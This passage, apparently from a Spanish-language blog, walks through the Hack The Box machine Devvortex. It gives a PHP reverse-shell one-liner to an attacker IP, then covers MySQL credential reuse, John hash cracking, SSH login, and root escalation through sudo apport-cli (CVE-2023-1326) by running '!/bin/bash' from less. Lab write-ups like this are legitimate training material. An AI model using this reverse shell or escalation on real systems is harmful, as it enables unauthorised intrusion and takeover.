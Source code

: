 
Vamos a levantar una shell remota y buscaremos en el MySQL de esta máquina (ya que tenemos sus credenciales)


::CodeMockup
php -r '$sock=fsockopen("10.10.14.6",4444);exec("bash <&3 >&3 2>&3");'
::

::image{src="/blog/10-htb-hacking-devvortex/Selection_009.png"}
::

Nos conectamos al MySQL, y buscamos la tabla de usuarios en la database `joomla`

::image{src="/blog/10-htb-hacking-devvortex/Selection_010.png"}
::

Nos guardamos el hash de "logan paul" en un archivo de nombre "hash" y ejecutamos nuestro amigo John para obtener su password.

::image{src="/blog/10-htb-hacking-devvortex/Selection_012.png"}
::

Si miramos a '/etc/passwd' veremos que existe un usuario 'logan'.... probamos conexión vía SSH....y....pum... ya tenemos la primera flag

::image{src="/blog/10-htb-hacking-devvortex/Selection_013.png"}
::


## Elevación de privilegios

Mirando permisos de sudo, podemos ver esto:

::CodeMockup
sudo -l

<pre>
    [...]
    User logan may run the following commands on devvortex:
      (ALL : ALL) /usr/bin/apport-cli
</pre>
::

`apport-cli` es una herramienta de línea de comandos en Ubuntu que se utiliza para reportar y diagnosticar fallos y errores del sistema. Sirve para recopilar información detallada sobre fallos de aplicaciones o del sistema, lo que ayuda en la identificación y resolución de problemas. Permite a los usuarios enviar reportes de errores a los desarrolladores de Ubuntu de manera eficiente.


Buscando un poco por San Google encontramos la vulnerabilidad "CVE-2023-1326". 

Esta vulnerabilidad permite a un atacante local (utilizando sudo) escalar privilegios executando un bash dentro del less que se utiliza como paginador.

Vamos a ejecutar el comando `sudo /usr/bin/apport-cli -f`  y las siguientes opciones:

::image{src="/blog/10-htb-hacking-devvortex/Selection_016.png"}
::


Y dentro del viewer (less) ejecutamos el `!/bin/bash`
::image{src="/blog/10-htb-hacking-devvortex/Selection_014.png"}
::


Welcome root!
::image{src="/blog/10-htb-hacking-devvortex/Selection_015.png"}
::